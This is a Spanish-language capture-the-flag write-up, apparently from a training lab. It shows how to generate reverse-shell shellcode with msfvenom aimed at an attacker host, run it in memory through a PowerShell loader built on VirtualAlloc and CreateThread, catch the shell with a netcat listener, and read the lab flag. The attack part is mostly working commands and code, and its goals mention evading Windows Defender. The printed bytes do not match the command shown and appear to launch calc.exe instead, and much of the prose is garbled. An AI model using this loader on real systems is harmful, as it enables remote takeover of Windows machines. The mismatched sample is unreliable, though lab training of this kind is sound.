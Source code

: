# Objetivos de aprendizaje 

- Comprender los conceptos básicos de escritura de shell codes
- Generar shellcordes para reverse shells
- Ejectuar shellcodes con PowerShell

# Terminos esenciales

Antes de empezar, es muy importantes entender los conceptos porque nos ayudara para el contenido posterior. Shellcodes es un topico muy avanzado, pero conocer las idear mientras tenemos el material se hara mas accesible.

- Shellcode: Una pieza de codigo que normalmente usan los actores maliciosos durante la explotación como "buffer overflow" o ataque de injección de comandos dentro de sistemas vulnerables, de vez en cuando ejecutan comandos arbitrarios dando control a los atacantes y comprometiendo la máquina. Normalmente estan escritos en lengauje ensamblador.

- PowerShell: Un gran lenguaje de scripting y linea de comandos dentro de Windows para automatización de tareas y gestión de configuración. Da acceso al usuario a interactuar con los componentes de lsistema y usando al administrador como propositos legitimos. Sin embargo, los atacantes usan PowerShell para la post-explotación dando acceso a los recursos del sistema

- Windows Defender: Una herramienta de seguridad que detecta y previente scripts malicioss. Bypasses comunes metodos para evadir defensas incluyendo scripts ofuscados, haciendo al software mas dificil que entre.

- Windows API: Windows Application Programming Interface es un programa que interactua con el sistema operativo, dando acceso a lo sistemas esenciales, opearciones de archivos y red. Es como un puente entre las aplicaciones y el sistema operativo

- Reverse Shell: Un tipo de conexión con una máquina, inicialmente la conexión empieza con la máquina atacante.

![image](https://github.com/user-attachments/assets/49eda249-7d2c-4315-9276-08513682c197)

# Generar Shellcode

Aprender a generar un shellcode es como. Usaremos "msfvenom" para generar una rev shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

Donde LHOST = IP local

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0
```

- p windows/x64/shell_reverse_tcp: la -p flag dice a msfvenom que tipo de payload quiere crear especificando también la ruta
- LHOST= ATTACKBOX_IP la IP referida a nuestra maquina
- LPORT=1111 E lpuerto por el que estamos escuchando la rev shell
- - f powershell: Especifica el formato de output este script específico esta hecho pra PowerShell
 
## Donde esta Actualmente el Shellcode

El shellcode actual esta en hex-encoded byte array, efezando por "0xfc" y luego numeros hexadecimales representando instrucciones a la máquina target. El orenador entiene el binario

Podemos ejecutar un shellcode ejecutado dentro de la memoria y crear una especificacion de ejecución. En este caso, usaremos PowerShell para llamar a una API de WIndows via un código C#.

```
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Es mucho código pero no nos estresemos

### Explicación del codigo

El script empieza definiendo las clases de C#. Las clases usan "DllImport" para atribuir una carga especifica refiriendose a "kernel32" DLL

- VirtualAlloc: Esta funciona localizada en memoria y proceso el spacio de dirección. Comunmente usada en escenario preparados para guardar en memoria y ejecutar el shellcode
- CreateThread: Esta funcion crear un nuevo reto en el proceso. Ejectura el shellcode cuando se carga en la memoria
- WaitForSingleObject: Esta funcion ejectura una especifica reto al acabar la tarea. En este caso se asegura que el shellcode se ha completado

Las clases de añaden a PowerShell usando "Add-Type" 

### Guardar el Shellcode en un Byte Array

El siguiente paso es guarda el shellcode en la variable $buf, un ejemplo abajo, "SHELLCODE_PLACEHOLDER" es una forma de ver insertar actual shellcode antes de generar "msfvenom" usualmente para remplazar un shellcode real, representado por valores hexadecimales.

### Alojar memoria el ShellCode

La funciona VirtualAlloc aloja la memoria y la bloquea

- 0 la dirección de memoria,
- $size: El tamaño de la memoria
- 0x3000 : tipo de localizacion
- 0x40: la protección de memoria


### Ejecutar ShellCode y esperar

Una vez el shelcode se haya guarda en la memoria, el script llama a "CReateThread" la funcion ejectua el shellcode. La instrucción empieza a ejecutar desde la memoria donde esta localizada espera a la función objeto y despues de esperar se ejecuta la shell.

# Ejecutar ShellCode

En nuestra máquina abrimos una escucha en el puerto que tengamos la shelll

```
nc -lvnp 1111
```

Debería quedar tal que así

![image](https://github.com/user-attachments/assets/a39d9caf-cc89-4a18-acfb-f901aa90402d)

![image](https://github.com/user-attachments/assets/d1f0648e-be31-42f3-9583-829a214279e1)

Estamos dentro

# Preguntas

Simplemente para sacar la flag es hacer exactamente lo mismo pero por el puerto 4444

C:\Users\glitch\Dekstop\flag.txt

```
AOC{GOT_MY_ACCESS_B@CK007}
```



